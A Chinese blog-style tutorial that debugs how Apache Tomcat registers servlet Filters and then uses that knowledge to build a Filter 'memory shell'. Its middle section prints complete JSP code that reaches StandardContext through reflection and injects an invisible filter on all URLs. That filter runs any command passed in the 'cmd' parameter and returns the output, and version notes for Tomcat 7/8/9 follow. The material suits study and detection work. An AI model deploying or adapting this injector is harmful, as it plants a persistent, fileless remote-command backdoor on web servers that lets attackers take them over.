









## 概述

最近感冒了，不想BB太多，直接开始调试吧，先写个Filter来调试

## Filter代码

新建一个FilterShell类，代码如下：

一个类如果想要成为Filter则需要继承Filter，然后重写init、doFilter、destory这三个方法，分别表示了

* init:：Filter在初始化时被调用
* doFilter：在Filter被命中时被调用
* destory：在Filter生命周期结束时调用的资源释放方法

其实我们只需要调试init和doFilter方法，以及Filter被实例化的时候的逻辑就行

```java
package org.example.memoryshell;

import javax.servlet.*;
import java.io.IOException;

// 如果不想在web.xml中配置，也可以使用这样的注解配置
// @WebFilter(filterName = "FilterShell", urlPatterns = {"/*"})
public class FilterShell implements Filter {
    @Override
    public void init(FilterConfig filterConfig) throws ServletException {
        System.out.println("FilterShell init......");
        Filter.super.init(filterConfig);
    }

    @Override
    public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
        System.out.println("FilterShell doFilter......");
    }

    @Override
    public void destroy() {
        System.out.println("FilterShell destroy......");
        Filter.super.destroy();
    }
}
```

在web.xml中新增filter配置

```xml
<filter>
    <filter-name>FilterShell</filter-name>
    <filter-class>org.example.memoryshell.FilterShell</filter-class>
</filter>
<filter-mapping>
    <filter-name>FilterShell</filter-name>
    <url-pattern>/*</url-pattern>
</filter-mapping>
```

在Filter类的class、init、doFilter这三个地方打上断点，然后我们开始运行Debug。



debug起来之后，先命中了class处的断点，这说明一定有一个地方在尝试创建这个Filter的实例或者说引用了这个Filter，我们追溯一下堆栈中的方法调用。



可以发现这个entry其实就是来自filterDefs，通过debug窗口可以看到filterDefs其实就是一个HashMap，Map的key其实就是我们在web.xml中配置的那个filterName，其实这里还能发现这里还加载了一个叫`Tomcat WebSocket (JSR356) Filter`的Filter，看起来是Tomcat给websocket加了一个默认的filter，ok，不管它，我们接着调



然后我们f9放开断点，他会命中init方法中的内容，分析init方法可以看到最终他是在ApplicationFilterConfig的initFilter方法中被命中的。



这里需要考虑一个问题，就是项目在初始化的时候会加载web.xml，然后把filterDefs中填充我们的Filter类，然后他会自己解析filterDef创建出来ApplicationFilterConfig，然后再放到filterConfigs中，所以这里就有问题了，就是我们如果构造木马，肯定是没办法改web.xml配置啊，所以我们就需要考虑构造filterDef将其放到filterDefs中，然后还有就是需要再根据filterDef生成一个ApplicationFilterConfig，然后写入到filterConfigs中。

OK，接着进行调试，我们f9放开断点，让其继续往下走，最终会命中doFilter方法。



然后我们跟踪堆栈信息，往上翻发现是`ApplicationFilterChain`这个地方调用了这里的`doFilter`方法，然后再往上看，可以找到`StandardWrapperValve`这个类中的`invoke`方法，我们点进去看一下。


然后我们看一下这个`ApplicationFilterFactory.createFilterChain`这个方法中干了什么事儿



从wrapper中去除了StandardContext上下文对象，然后把FilterMaps数据拿到，然后做了一个判断，如果符合这两个条件的话就从context中把filterConfig查出来，filterConfig其实就是Filter的实例，最后把filterConfig添加到filterChain这个调用链中。

* matchDispatcher
  * filterMap：从context中取出的参数
  * dispatcher：从request.getAttribute(org.apache.catalina.core.DISPATCHER_TYPE)取出的数据，其实就是个枚举值



所以，梳理一下debug过程中相关的数据结构：

* FilterDefs：存放FilterDef的数组 ，FilterDef 中存储着我们过滤器名，过滤器实例，作用 url 等基本信息
* FilterConfigs：存放filterConfig的数组，在 FilterConfig 中主要存放 FilterDef 和 Filter对象等信息
* FilterMaps：存放FilterMap的数组，在 FilterMap 中主要存放了 FilterName 和 对应的URLPattern
* FilterChain：过滤器链，该对象上的 doFilter 方法能依次调用链上的 Filter
* ContextConfig：Web应用的上下文配置类
* StandardContext：Context接口的标准实现类，一个 Context 代表一个 Web 应用，其下可以包含多个 Wrapper
* StandardWrapperValve：一个 Wrapper 的标准实现类，一个 Wrapper 代表一个Servlet

然后放一个大佬画的filter工作的流程图



## Filter内存马代码

```jsp
<%--
  Created by IntelliJ IDEA.
  User: 15137
  Date: 2024/11/29
  Time: 14:33
  To change this template use File | Settings | File Templates.
--%>
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "y4tacker";
    ServletContext servletContext = request.getSession().getServletContext();

    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

    Field Configs = standardContext.getClass().getDeclaredField("filterConfigs");
    Configs.setAccessible(true);
    Map filterConfigs = (Map) Configs.get(standardContext);

    if (filterConfigs.get(name) == null){
        Filter filter = new Filter() {
            @Override
            public void init(FilterConfig filterConfig) throws ServletException {

            }

            @Override
            public void doFilter(ServletRequest servletRequest, ServletResponse servletResponse, FilterChain filterChain) throws IOException, ServletException {
                HttpServletRequest req = (HttpServletRequest) servletRequest;
                if (req.getParameter("cmd") != null){
                    byte[] bytes = new byte[1024];
                    Process process = new ProcessBuilder("cmd","/c",req.getParameter("cmd")).start();
                    int len = process.getInputStream().read(bytes);
                    servletResponse.getWriter().write(new String(bytes,0,len));
                    process.destroy();
                    return;
                }
                filterChain.doFilter(servletRequest,servletResponse);
            }

            @Override
            public void destroy() {

            }

        };


        FilterDef filterDef = new FilterDef();
        filterDef.setFilter(filter);
        filterDef.setFilterName(name);
        filterDef.setFilterClass(filter.getClass().getName());
        standardContext.addFilterDef(filterDef);

        FilterMap filterMap = new FilterMap();
        filterMap.addURLPattern("/*");
        filterMap.setFilterName(name);
        filterMap.setDispatcher(DispatcherType.REQUEST.name());

        standardContext.addFilterMapBefore(filterMap);

        Constructor constructor = ApplicationFilterConfig.class.getDeclaredConstructor(Context.class,FilterDef.class);
        constructor.setAccessible(true);
        ApplicationFilterConfig filterConfig = (ApplicationFilterConfig) constructor.newInstance(standardContext,filterDef);

        filterConfigs.put(name,filterConfig);
        out.print("Inject Success !");
    }
%>

<html>
<head>
    <title>Title</title>
</head>
<body>

</body>
</html>
```

这是网上大佬给的代码，我自己写的时候碰到一些问题，但是我发现他们写的也有一些问题，但是也有可能是我的用法不太对。

我经常遇到Tomcat启动时，没有加载我写的这个filter_shell_test.jsp，重新加载tomcat资源文件才加载到这个jsp脚本。



我这里只调了9.0.97版本的tomcat，没有调其他版本的，但是我看其他大佬的帖子中写了关于不同版本tomcat的写法。

**这里把大佬的备注直接放这里了。**

这种注入filter内存马的方法只支持 Tomcat 7.x 以上，因为 javax.servlet.DispatcherType 类是servlet 3 以后引入，而 Tomcat 7以上才支持 Servlet 3

```
  filterMap.setDispatcher(DispatcherType.REQUEST.name());
```

另外在tomcat不同版本需要通过不同的库引入FilterMap和FilterDef

```
<!-- tomcat 7 -->
<%@ page import = "org.apache.catalina.deploy.FilterMap" %>
<%@ page import = "org.apache.catalina.deploy.FilterDef" %>
```

```
<!-- tomcat 8/9 -->
<%@ page import = "org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import = "org.apache.tomcat.util.descriptor.web.FilterDef"  %>
```